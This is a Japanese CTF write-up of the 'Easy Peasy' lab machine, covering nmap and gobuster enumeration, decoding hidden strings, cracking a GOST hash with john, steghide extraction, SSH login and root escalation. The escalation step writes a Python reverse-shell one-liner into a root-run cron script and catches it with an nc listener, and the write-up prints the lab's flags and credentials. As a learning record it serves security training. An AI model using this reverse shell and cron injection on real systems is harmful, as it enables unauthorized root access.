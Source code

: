 # Easy Peasy

## About the CTF
NmapやGobusterなどのツールを使用してシステムに侵入する、
個人的にダメダメでした。。。
カンニングした部分も多々ありますが、後学のためにまとめておきます！

## Writeup
---  
### Task 1  Enumeration through Nmap
まずはnmap!
```
nmap -sV <IP> -p0-65535

~~~~~~~~~~
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Task1の問題はこれで全部答えられそう！

- 1.How many ports are open?  `3`
- 2.What is the version of nginx?  `1.16.1`
- 3.What is running on the highest port?  `Apache`

---
### Task 2  Compromising the machine
- 1.Using GoBuster, find flag 1.
gobusterを使用して隠されたディレクトリを探す。
```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -t 100

/hidden               (Status: 301) [Size: 169]
/index.html           (Status: 200) [Size: 612]                                  
/robots.txt           (Status: 200) [Size: 43]  
```
`/hidden`のhttp response codeが301でリダイレクトされていることがわかる。  
`/hidden`に対して再度`gobuster`を実行する。
```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -t 100

/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169]
```
`/whatever`を発見。  
続けて`/whatever`に対して`gobuster`をかけてみるも、何も見つからない。  
バックグラウンドのイメージにヒントがあるのかなと思って、htmlをダウンロードしてみる。  
なんか意味深なものを発見。  
`<p hidden="">ZmxhZ3tmMXJzN19mbDRnfQ==</p>`  
Base64でdecodeする。  
```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d

flag{f1rs7_fl4g}
```

一丁上がり！ `flag{f1rs7_fl4g}`

- 2.Further enumerate the machine, what is flag 2?  
`Port:65524`に対してgobusterを実行する。
```
gobuster dir -u http://<IP>:65524 -w /usr/share/wordlists/dirb/common.txt -t 100

~~~~~~~~
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10818]
/robots.txt           (Status: 200) [Size: 153]  
/server-status        (Status: 403) [Size: 280]  
~~~~~~~~
```
ディレクトリは特に見つからないが、`robots.txt`を確認してみる。
Chromeで`http://<IP>:65524/robots.txt`にアクセス。

```
[robots.txt]

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
User-Agentの部分が答えかな〜。
32文字なのでmd5 hashかな。
サイトによって答えが出てこないのが辛いところ。[ここ](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)は出てくる。

`flag{1m_s3c0nd_fl4g}`

- 3.Crack the hash with easypeasy.txt, What is the flag 3?  
`http://<IP>:65524`にアクセスする。
Apacheのデフォルトページだけど実はそうじゃないらしい。
`view-source:http://<IP>:65524`でソースコードを表示し`flag`で検索をかけるとヒット！

`flag{9fdafbd64c47471a8f54cd3fc64cd312}`

- 4.What is the hidden directory?  
`view-source:http://<IP>:65524`で`hidden`で検索をかけると、`its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`なる記述が。
[Cyberchef](https://gchq.github.io/CyberChef/)で`ba`から始まるdecodeを片っぱしから試してみる。
`base62`で意味ありげな文字列が出てきたのでこれが答えっぽい。

`/n0th1ng3ls3m4tt3r`

- 5.Using the wordlist that provided to you in this task crack the hash. What is the password?  
`http://<IP>:65524/n0th1ng3ls3m4tt3r`にアクセスする。
なんか文字があるので、これをクラックするのか。`940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`
ヒントを確認すると、`Gost hash`なるものらしい。
`john the ripper`で解読する。ワードリストは与えられた`easypeasy.txt`を使う。

```
john --format=gost --wordlist=./easypeasy.txt ./hash.txt

~~~~~~~~
mypasswordforthatjob (?)     
~~~~~~~~
```
*hash.txtは解析対象のhashを記述したテキストファイル。

`mypasswordforthatjob`

- 6.What is the password to login to the machine via SSH?  
`http://<IP>:65524/n0th1ng3ls3m4tt3r`にあった画像ファイルを調べてみる。  
(苦戦した〜。binwalkとsteghide,zstagの使い分けを勉強しよう。)
パスワードは前問の答えを使う。

```
steghide extract -sf binarycodepixabay.jpg -p mypasswordforthatjob
```
出来上がったファイルの中身を確認する、
```
cat secrettext.txt 

username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```
passwordの部分はcyberchefでデコード（from binary）する。

`iconvertedmypasswordtobinary`

- 7.What is the user flag?  
前問でsshのユーザー名とパスワードが判明したので、ターゲットに向けてsshをかける。
```
ssh boring@<IP> -p 6498
password : iconvertedmypasswordtobinary
```
boringのホームディレクトリを確認すると、`user.txt`があったので、中身を確認するとflagを発見。
`flag{n0wits33msn0rm4l}`

- 8.What is the root flag?  
sudo使えるか調べてみる。
```
sudo -l

Sorry, user boring may not run sudo on kral4-PC.
```
ダメっぽい。この時点でSUIDを使うとかは選択肢から消える（？）   
`/etc/crontab`を確認してみる。
```
cat /etc/crontab

~~~~~~~~~~~~~~~~~~~~~~
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
一番下のジョブが使えそうな気がする。
`.mysecretcronjob.sh`を確認してみる。
```
cat /var/www/.mysecretcronjob.sh 

#!/bin/bash
# i will run as root
```
ここにrevers shell仕掛ける系だ〜。
python3が使えるみたいなので、以下のコマンドを`.mysecretcronjob.sh`に記述する。
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LOCAL IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
*言語ごとのrevers shellは改めてまとめよう。

revers shellのコマンドはcronで勝手に実行されるので、ローカルPCで待ち受けよう。(MAC用)
```
nc -lvc -p 4444 
```
revers shellが成立したら、`/root`を探索して、`.root.txt`を発見。
```
cat /root/.root.txt

flag{63a9f0ea7bb98050796b649e85481845}
```
`flag{63a9f0ea7bb98050796b649e85481845}`

おしまいです。